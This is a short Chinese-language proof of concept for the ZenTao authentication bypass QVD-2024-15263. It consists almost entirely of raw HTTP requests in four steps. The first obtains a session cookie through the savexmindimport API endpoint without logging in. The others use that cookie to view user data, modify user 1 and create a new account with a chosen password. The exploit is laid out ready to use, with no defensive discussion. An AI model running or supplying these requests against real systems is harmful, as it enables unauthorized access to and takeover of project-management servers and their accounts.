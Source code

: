 禅道身份认证绕过QVD-2024-15263
一、获取cookie
GET /api.php?m=testcase&f=savexmindimport&HTTP_X_REQUESTED_WITH=XMLHttpRequest&productID=upkbbehwgfscwizoglpw&branch=zqbcsfncxlpopmrvchsu HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
二、查看用户信息
http://127.0.0.1/api.php/v1/users/id
三、修改用户信息
PUT /api.php/v1/users/1 HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: zentaosid=2096a8f74ab1e2b7211ce133e5e83db0; lang=zh-cn; device=desktop; theme=default
Connection: close
Content-Length: 29

{
    "realname": "admin"
}
四、创建新用户
POST /api.php/v1/users HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: zentaosid=2096a8f74ab1e2b7211ce133e5e83db0; lang=zh-cn; device=desktop; theme=default
Connection: close
Content-Length: 76

{"account": "usertest", "password": "123qwe!@#", "realname": "测试用户"}
